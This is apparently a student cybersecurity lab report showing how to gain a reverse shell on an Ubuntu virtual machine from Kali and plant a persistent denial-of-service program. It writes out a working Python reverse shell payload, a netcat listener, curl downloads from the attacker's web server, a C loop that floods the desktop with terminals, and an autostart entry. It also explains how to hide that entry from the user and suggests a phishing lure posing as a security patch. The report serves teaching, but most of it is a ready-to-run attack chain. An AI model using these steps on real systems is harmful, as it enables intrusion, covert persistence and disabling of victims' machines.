


## Huseinovic Elma
## Cybersecurity report 

# Reverse shell and Denial of service with persistence on an Ubuntu virtual machine

## Introduction

The goal of the demo is to create a persistent Denial of Service on an Ubuntu virtual machine, which will therefore be the attacked machine, while a Kali virtual machine was used for the attacker. To do this, a reverse shell is first created to allow the attacking machine to act freely on the Ubuntu machine.

## Kali Preparation
First of all, all the necessary files were created on Kali.
First, the `reverseshell.sh` file, where the is the [payload](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/) in python 
```py
export RHOST="10.0.2.2";
export RPORT=4444;
python3 -c 'import socket,os,pty;
s=socket.socket();
s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))));
[os.dup2(s.fileno(),fd) for fd in (0,1,2)];
pty.spawn("/bin/sh")&'
```
which allows to create a reverse shell in the background when executed on the attacked machine.
Then, a very simple C program, `dos.c`, was created, containing an infinite while loop that continues to open terminal windows:
```c
#include <stdlib.h>
int main(){
    while(1){
        system("gnome-terminal");
    }
    return 0;
}
```
The terminal was chosen to be opened for simplicity, it is possible to do it with other applications and also open several of them, creating a real crash of the machine.
Finally, the `dos.desktop` file was created:
```bash
[Desktop Entry]                  
Type=Application                
Exec=/home/ubuntu/dos            
Hidden=false                     
NoDisplay=false
X-GNOME-Autostart-enabled=true
Name[en_US]=dos
Name=dos
Comment[eu_US]=
Comment=
```
It will be used to insert the program that executes the Denial of Service among the applications that open at the start of the machine.
The Hidden and NoDisplay flags, to highlight the Denial of Service, have been set to false, if they are set to true, the program runs without the user noticing anything, so the machine is slowed down without being able to understand the reason.
Once the files were created, a [web file server](https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88) was also created on port 80, using the command.
`python -m http.server 80`


At this point, the only thing left to do is to listen on the default port, to do this it was used [netcat](https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/), with the command: `nc -lvp 4444 -n`

# Reverse shell 

To create the reverse shell, it is necessary for the user on the attacked machine to be convinced to download and execute the `reverseshell.sh` file, this could be done by creating a phishing email and convincing him, for example, that it is a security patch. In the demo, the command `curl -O "http://10.0.2.2/demo/reverseshell.sh"` is used, which downloads the file from the web file server created on Kali, at this point the command `sudo chmod +x reverseshell.sh` is executed which adds the execution permission to the file with administrator privileges, finally the file is executed with `./reverseshell.sh`.
At this point, being the reverse shell executed in the background, the user on Ubuntu can continue to use the terminal normally, without noticing anything, but in reality he is connected on port 4444 to the Kali machine through a reverse shell.



# DoS and persistence

Using the reverse shell, now, it is easy to download the `dos.c` program and the `dos.desktop` file from the Kali web file server always using the `curl` command:
`curl -O "http://10.0.2.2/demo/dos.c"`
`curl -O "http://10.0.2.2/demo/dos.desktop"`
now, the dos.c program is compiled using the `ggc -o dos dos.c` command, thus creating the executable. Before running it, however, persistence must be created: the `dos.desktop` file is moved to `.config/autostart`, to do this the `mv` command is used, which must, however, be executed with administrator privileges, therefore using `sudo`, this implies that the attacker must know the account password. Once `dos.desktop` is moved, the `dos` program is visible in Startup Application Preferences, which shows the programs that are run at the machine startup.



So, every time the machine is accessed, countless terminal windows will be opened in a loop, making it unusable.


Furthermore, another interesting feature is that, trying to remove `dos` using the Startup Application Preferences application and restarting the machine, the program is still executed, this is because the `dos.desktop` file present in `.config/autostart` is not removed, and continues to put the program among the applications to be executed at startup.
To stop this attack you might think of deleting the `dos` executable, but in case it is placed in a folder not easily reachable, this could not be done, especially if you do not know what is happening and if the machine starts to crash.
Alternatively, you could think of deleting the `dos.desktop` file, but given that it is located in a directory that is hidden by default and given that the terminal is unusable, this could be difficult.

## References
1. The payload for the reverse shell was taken from: https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/shell-reverse-cheatsheet/
2. The creation of the web file server was taken from: https://medium.com/@jbtechmaven/ethical-hacking-reverse-shell-attack-using-metasploit-57e9cd400c88
3. The usage of netcat to make the machine listen on a prefefined port was taken from: https://www.geeksforgeeks.org/how-to-create-reverse-shells-with-netcat-in-kali-linux/


